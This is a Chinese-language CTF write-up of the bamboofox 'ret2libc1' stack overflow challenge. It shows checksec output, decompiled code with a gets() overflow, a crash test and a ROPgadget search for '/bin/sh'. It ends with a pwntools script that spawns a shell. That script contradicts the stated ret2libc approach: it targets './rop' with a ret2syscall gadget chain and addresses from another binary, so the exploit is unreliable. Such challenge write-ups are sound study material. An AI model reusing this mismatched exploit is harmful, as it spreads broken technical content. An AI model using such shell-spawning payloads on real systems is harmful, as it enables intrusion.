

# bamboofox - ret2libc1

**检查文件**

```
$ checksec --file=ret2libc
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   84) Symbols       No    0               1               ret2libc
```

```
$ file ret2libc
ret2libc: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fb89c86b266de4ff294489da59959a62f7aa1e61, with debug_info, not stripped
```

目标文件为 32 位，开启了 NX 保护。下面对程序进行反编译以确定漏洞位置：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```


对程序进行测试，对其输入一个长度为200的随机字符串，程序崩溃，确认漏洞点产生于`gets`函数

```
$ ./ret2libc 
RET2LIBC >_<
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
[1]    228860 segmentation fault (core dumped)  ./ret2libc
```

利用`ropgadget`查看程序中是否存在 `/bin/sh` 存在：

```
$ ROPgadget --binary ret2libc --string '/bin/sh'        
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在



那么，我们直接返回该处，即执行 system 函数。


相应的 payload 如下:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

